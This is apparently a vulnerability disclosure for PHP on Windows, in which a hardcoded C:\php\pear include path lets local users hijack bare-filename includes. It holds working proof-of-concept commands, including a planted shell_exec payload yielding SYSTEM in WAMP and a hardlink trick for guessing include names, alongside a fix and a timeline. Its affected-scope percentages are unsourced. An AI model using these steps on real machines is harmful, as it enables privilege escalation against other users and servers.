



# PHP for Windows: Local Privilege Escalation via Hardcoded PEAR Include Path

**Issue:** PHP for Windows - local privilege escalation via include path preference of `C:\php\pear`

**Severity:** High (CVSS 7.8, `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`)

**CWE tags:** CWE-427 (Uncontrolled Search Path Element), CWE-829 (Inclusion of Functionality from Untrusted Control Sphere).

**Affected file:** `php8ts.dll`

**Product version:** 8.5.10 (latest working at the time of writing this, from `php-8.5.10-Win32-vs17-x64.zip`) and earlier. Tested on:

- Version 8.5.10, SHA256: `0604b923e1a1bb1d0e31cabd61c5762d5a854c3b1e3972dac89963cc15ebd625`
- Version 8.3.28, SHA256: `15d07d339d9d61da6d3092598cab44de735bc40875ddfb4829b9747a20780ee6`


## Details

Official Windows thread-safe builds of PHP (`php8ts.dll`), as shipped in `php-*-Win32-vs17-x64.zip`, are vulnerable to local cross-user code execution (privilege escalation) via include/require script hijacking by Authenticated Users. Both CLI and HTTP installations are affected.

Whenever a PHP script calls include, include_once, require, or require_once, and the `C:\php\pear` directory exists, **PHP includes that directory into the list of searched paths when looking for the included file if the argument is only a filename with no path**. Since on Windows **regular users can create new directories on C:\, they can hijack such include calls and attain code execution with the current privileges of the PHP process**.

### Root cause

The `C:\php\pear` string can be found in the default value of the `include_path` directive on Windows:
`.;C:\php\pear`

This be easily confirmed by running a simple test on the latest binary PHP distribution for Windows (php-8.5.10-Win32-vs17-x64 at the time of writing this), by invoking phpinfo() and filtering its result for `include_path` in command line.

Here is our test script test.php:
```php
<?php phpinfo(); ?>
```

And here's its output:
```cmd
php.exe test.php | findstr include_path
include_path => .;C:\php\pear => .;C:\php\pear
```

**This string is not derived from the installation path, it is baked into the php8ts.dll binary**:

```powershell
PS C:\wamp64> Get-ChildItem -Path C:\wamp64 -Recurse -File |
>>   Select-String -Pattern 'C:\php\pear' -SimpleMatch -List |
>>   Select-Object -ExpandProperty Path
C:\wamp64\bin\apache\apache2.4.65\bin\php8ts.dll
C:\wamp64\bin\php\php8.0.30\php8ts.dll
C:\wamp64\bin\php\php8.1.33\php8ts.dll
C:\wamp64\bin\php\php8.2.29\php8ts.dll
C:\wamp64\bin\php\php8.3.28\php8ts.dll
C:\wamp64\bin\php\php8.4.15\php8ts.dll
C:\wamp64\bin\php\php8.5.0\php8ts.dll
```

Now, let's look at the value. `.;C:\php\pear` are just two directories listed, separated by a semicolon. We have the current script directory (` . `) and `C:\php\pear`. 

This order suggests that the current script directory takes precedence over `C:\php\pear` during full path resolution.

And that is true, but with one important caveat, which decides when this becomes exploitable.

### Exploitability

**CLI example**

Let's run a simple proof of concept using a CLI-only (no webserver) PHP script run by a victim user and injected into by the attacker.

Our CLI-only application consists of one script including another - a pattern found in almost every PHP application:

some_app.php:
```php
<?php
	echo "Before config inclusion. \n";
	include "config.inc.php";
	echo "After config inclusion. \n";
?>
```

config.inc.php:
```php
<?php
	echo "Legitimate config included!\n";
?>
```

We have both files in the current directory, let's run some_app.php:

```cmd
C:\Users\victim\php-8.5.10-Win32-vs17-x64>whoami
desktopwin11\victim

C:\Users\victim\php-8.5.10-Win32-vs17-x64>php some_app.php
Before config inclusion.
Legitimate config included!
After config inclusion.
```

Nothing unexpected, this is how this script is supposed to work.

Now, let's set up the hijack while operating as the "attacker" user:

```cmd
C:\Windows\System32>whoami
desktopwin11\attacker

C:\Windows\System32>mkdir C:\php\pear

C:\Windows\System32>echo MALICIOUS CODE > C:\php\pear\config.inc.php
```

Then once again run the script as victim:
```cmd
C:\Users\victim\php-8.5.10-Win32-vs17-x64>whoami
desktopwin11\victim
C:\Users\victim\php-8.5.10-Win32-vs17-x64>php some_app.php
Before config inclusion.
Legitimate config included!
After config inclusion.
```

No change - the malicous config.inc.php from `C:\php\pear` did not get included.

Now let's see what happens if the file and directory structure of some_app.php is slightly different, with the config.inc.php being located in a different directory, let's say `includes\`.

So now some_app.php looks like this:
```php
<?php
        echo "Before config inclusion. \n";
        include "includes/config.inc.php";
        echo "After config inclusion. \n";
?>
```

In the new config.inc.php located in the `includes/` subdirectory we have an additional include with no absolute path (a second-order include):

includes\config.inc.php:
```php
<?php
        echo "Legitimate config included!\n";
        include "config.extension.php";
?>
```

For simplicity, the demo config.extension.php (the second-order include) contains just a small piece of text.

includes\config.extension.php:
```
THIS IS LEGITIMATE CONFIG EXTENSION
```

Let's run the script as victim once again:

```
C:\Users\victim\php-8.5.10-Win32-vs17-x64>php some_app.php
Before config inclusion.
Legitimate config included!
THIS IS LEGITIMATE CONFIG EXTENSION
After config inclusion.
```

Now, the hijack:

```
C:\Windows\System32>whoami
desktopwin11\attacker

C:\Windows\System32>echo MALICIOUS CODE > C:\php\pear\config.extension.php
```

Finally, once again some_app.php is executed by the victim user, just like before:

```cmd
C:\Users\victim\php-8.5.10-Win32-vs17-x64>whoami
desktopwin11\victim

C:\Users\victim\php-8.5.10-Win32-vs17-x64>php some_app.php
Before config inclusion.
Legitimate config included!
MALICIOUS CODE
After config inclusion.
```

The file from `C:\php\pear\config.extension.php` took precedence over `C:\Users\victim\php-8.5.10-Win32-vs17-x64\includes\config.extension.php`, leading to cross-user code execution!

So, in this case, when there is a second-order include from a script located in a different directory than the main script and no absolute path is provided, the search order becomes:
1. `C:\Users\victim\php-8.5.10-Win32-vs17-x64` (the current script directory, ` . `, first in the `include_path`). config.extension.php is not there, so the search continutes.
2. `C:\php\pear` (the alternative directory defined in `include_path`). If `C:\php\pear\config.extension.php` is there, the search ends here.
3. `C:\Users\victim\php-8.5.10-Win32-vs17-x64\includes`, which is where the first-order include config.inc.php is located. This location works as expected, but only if `C:\php\pear` does not satisfy the search already.

This pattern of includes is very common in PHP applications, both in CLI and web setups.

As a matter of fact, the welcome page of the WAMP server is built this way:


**WAMP welcome page example**

Let's see how this works using the WAMP welcome page, which in default installations is at `C:\wamp64\www\index.php`.

The script includes the following require call:
```php
require $server_dir.'scripts/config.inc.php';
```

`$server_dir` is `C:\wamp64`.

The PHP script in `C:\wamp64\scripts\config.inc.php` makes another require call:

```php
if(!defined('WAMPTRACE_PROCESS')) require 'config.trace.php';
```

Both files - config.inc.php (which is the one making the second include call), and config.trace.php (the target of the first-order include call) exist in the same directory:

```
C:\wamp64\scripts>dir | findstr config
11/06/2025  03:34 PM            39,263 config.inc.php
11/04/2025  11:39 AM               995 config.trace.php
```

Sending a GET request to http://localhost/ displays the welcome page as expected:



Now let's see what happens when `C:\php\pear\config.trace.php` is created:

```cmd
C:\php\pear>whoami
desktopwin11\attacker

C:\php\pear>echo ^<?php echo shell_exec('whoami');die();?^> > config.trace.php

C:\php\pear>
```

Now requesting GET http://localhost/ shows `nt authority\system` instead of the welcome page:




**Notes on target code invocation**

Usually the code invoking the include will be a part of a web application running in the security context of the HTTP server process (Apache/WAMP as SYSTEM, IIS as ApplicationPoolIdentity / a service account, etc.), and in such case the attacker attains code execution with those privileges. In those scenarios the attacker will usually be able to trigger code execution by sending a web request by themselves. Otherwise code execution will be delayed until another user or process invokes the code making the include (CLI applications are affected too).

**Final notes on exploitability**

The only Windows installations where this is NOT exploitable are:
- installations where `C:\php\pear` exists (**not default**) with **non-default** permissions, preventing Authenticated Users from creating or changing files,
- the system is explicitly hardened to prevent Authenticated Users from creating directories in the `C:\` root directory (**not default**),
- the `include_path` is explicitly configured to a **non-default** value, pointing at a location with secure permissions,
- none of the deployed PHP applications have the exploitable structure of includes (depends on the environment).

Also, the attacker needs to know the file name/names of the existing second-order non-absolute path includes. For known software products this information is easy to obtain. An alternative approach is to use a dictionary of common include names and create hardlinks for them in `C:\php\pear`, all pointing at the malicious file. On Windows hardlinks can be created by non-administrative users if the target file is owned by the same user who requests hardlink creation:

```cmd
C:\php\pear>whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192

C:\php\pear>mklink /H another_filename.php config.trace.php
Hardlink created for another_filename.php <<===>> config.trace.php
```

Alternatively, instead of hardlinks (which save disk space) a bunch of copies with different names can be created (and avoid potentially suspicious event of hardlink creation).


## Impact

Local privilege escalation from a standard user to the web server (or CLI user) identity. If that identity is SYSTEM (common for WAMP/XAMPP and some Apache service installs), the result is SYSTEM code execution. Confidentiality, integrity, and availability of the site and, depending on the service account, the host are all affected.


## Estimation of the affected scope
1. The vulnerable include pattern is a **foundational idiom** of the pre-Composer PHP era and remains prevalent in deployed WAMP/XAMPP/IIS-PHP installations.
2. Even modern Composer-based deployments frequently ship at least one third-party package in `vendor/` that emits a bare-filename `require`, so the vulnerability class is **not limited to legacy targets**.
3. Any PHP tool that itself was distributed via PEAR (a substantial slice of the Windows PHP CLI toolchain) is essentially guaranteed to be exploitable when invoked, because those scripts *depend on* `include_path` resolution to load their own modules.

### Where it's very common

- **Traditional LAMP/WAMP apps and CMSes**: WordPress plugins and themes, older phpBB, MediaWiki, Joomla, Drupal 6/7, osCommerce, PrestaShop, Magento 1, Moodle — all contain many `include "config.php";`, `require 'common.php';`, `include 'db.inc.php';` calls from files inside `includes/`, `admin/`, `modules/`, `lib/`, `inc/`, etc. WAMP's own bundled welcome page (as you demonstrated) is a canonical example.
- **PEAR itself and PEAR-based tools** (PhpDocumentor 1.x, HTML_QuickForm, MDB2, PEAR Mail, Auth, Log, DB, Net_* packages): these were *designed* around `include_path` resolution and use bare `require_once 'PEAR.php';`-style calls throughout. This is precisely the pattern `include_path` exists for.
- **In-house / bespoke enterprise PHP apps** (intranet portals, admin dashboards, older SaaS backends): typically written pre-Composer, follow the "one config.inc.php in the root, other scripts in subdirs including it by bare name" convention. Very common in scripts that grew organically.
- **Older tutorials and books** (pre-2015): almost universally taught `include "config.php"` without `__DIR__`, seeding a large corpus of copy-pasted code.
- **Standalone tools bundled with PHP-for-Windows stacks**: phpMyAdmin (older versions), Adminer helper scripts, backup/install wizards, WAMP/XAMPP dashboards, PEAR CLI wrappers (`pear.bat`, `pecl.bat`), Composer-installer stubs — many rely on `include_path`.

### Where it's rare

- **Modern framework code** (Laravel 5+, Symfony 3+, Slim 3+, Laminas): includes go through Composer's autoloader, which resolves absolute paths internally. Application-authored `require`s almost always use `__DIR__ . '/...'` or `base_path()`. Not vulnerable by this mechanism.
- **PSR-4 / Composer-managed libraries** on Packagist: overwhelmingly use `__DIR__`-based bootstrap or rely purely on autoloading.
- **Post-2015 style guides** (PSR-12, PHP-FIG recommendations) and static analyzers (PHPStan, Psalm) discourage bare includes.

### Concrete estimate

Population characterization:

- **Legacy PHP apps (pre-Composer, pre-2013 architecture)**: I would estimate a large majority — on the order of **70–90%** — contain at least one exploitable second-order bare include somewhere in their code path, especially config/bootstrap chains.
- **Modern Composer-first apps (post-2015)**: the *application* code rarely triggers it, but the **vendor/** tree is a wildcard — many long-lived libraries still contain PEAR-style bare `require`s in less-travelled code paths (mailers, PDF generators, XML/SOAP tooling, older DB abstraction layers). On a real-world Windows WAMP host, exploitable filenames very often exist somewhere in `vendor/`.
- **The `pear.bat` / `pecl.bat` / `phpunit` / `phpcs` / older CLI tools** that ship with or alongside the Windows binaries themselves are essentially guaranteed to be affected (they rely on `include_path` by design).


## Suggested fix

Do not include a fixed `C:\php\...` path. If a PEAR/trace hook is required, resolve it from the actual install prefix or an explicit INI setting, and only from a directory that is not writable by Authenticated Users.

A workaround is to pre-create `C:\php\pear` as an administrator and lock its ACLs so only Administrators can write.

## CVE justification



# Timeline

02.09.2026 - Sent the report to security@php.net.

09.09.2026 - Got a response, from their point of view this is fine and there is nothing to fix.

22.09.2026 - Article https://atos.net/wp-content/uploads/2026/09/Cybershield-hijacks-article.pdf published